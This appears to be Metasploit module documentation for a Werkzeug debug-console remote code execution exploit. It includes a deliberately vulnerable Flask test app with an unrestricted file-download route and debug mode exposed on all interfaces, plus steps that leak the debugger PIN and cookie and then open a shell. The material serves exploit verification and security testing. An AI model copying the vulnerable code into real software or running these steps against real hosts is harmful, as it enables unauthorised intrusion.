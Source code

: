     def build_response(filename):
        with open(filename) as file:
             response = make_response(file.read())
             response.headers['Content-disposition'] = 'attachment'
             return response

    @app.route("/getdownload")
    @auth.login_required
    def getdownload():
        return build_response(request.args.get('file'))

    @app.route("/postdownload", methods=['POST', 'PUT'])
    @auth.login_required
    def postdownload():
        return build_response(request.form['file'])

    @click.command()
    @click.option("--no-evalex", is_flag=True, default=False)
    def runserver(no_evalex):
        evalex = not no_evalex
        app.run(host='0.0.0.0', port=80, debug=True, threaded=True,
                use_reloader=False, use_evalex=evalex)

    if __name__ == '__main__':
        runserver()

#### report.txt

    Hi there, I'm a sample report

## Verification Steps

1. Run the docker containers
2. Start msfconsole

### Werkzeug 3.0.3 using /console

3. Do: `use exploit/multi/http/werkzeug_debug_rce`
4. Do: `set RHOSTS <Iip>`
5. Do: `set LHOST <ip>`
6. Do: `set VHOST 127.0.0.1`
7. Do: `set MACADDRESS <mac-address>`
8. Do: `set MACHINEID <machine-id>`
9. Do: `set FLASKPATH /usr/local/lib/<python3.version>/site-packages/flask/app.py` (where `<python3.version>` matches the version on the system being exploited)
10. Do: `run`
11. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 3.0.3 using debugger (GET)

12. Do: `set TARGETURI /getdownload?file=`
13. Do: `run`
14. You should see a PIN and a cookie being logged then get a shell.
